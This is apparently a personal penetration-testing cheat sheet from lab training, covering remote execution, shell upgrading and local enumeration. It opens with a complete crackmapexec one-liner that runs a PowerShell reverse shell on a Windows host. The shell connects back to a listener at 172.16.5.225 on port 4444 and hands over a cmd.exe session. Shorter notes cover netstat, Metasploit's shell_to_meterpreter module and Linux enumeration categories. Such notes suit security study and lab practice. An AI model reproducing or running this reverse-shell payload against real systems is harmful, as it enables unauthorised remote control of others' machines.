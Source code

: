 ## one liner bangers


```
sudo crackmapexec smb --exec-method atexec -d INLANEFREIGHT.LOCAL -u xxxxx-p xxxxx -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""172.16.5.225""""; $port=""""4444"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};' 172.16.5.5
```
## check running services
```
netstat 
```
```
netstat -tulwn
```

### upgrade normal shell in metasploit to a meterpreter shell

if you can get a shell but for some reason cant get the meterpreter shell to work do this.

get a shell with just a generic shell on metasploit when use this: 
```
use multi/manage/shell_to_meterpreter
```

then update the opstions and then write:
```
run
```
  
---------------------------------------------------------------------------------------------------------------------------------------------------------
  
### basic local machine enumeration
This task focuses on enumerating a Linux machine after accessing a shell, such as bash. Although some commands provide information on more than one area, we tried to group the commands into four categories depending on the information we expect to acquire.

*    System
*    Users
*    Networking
*    Running Services
  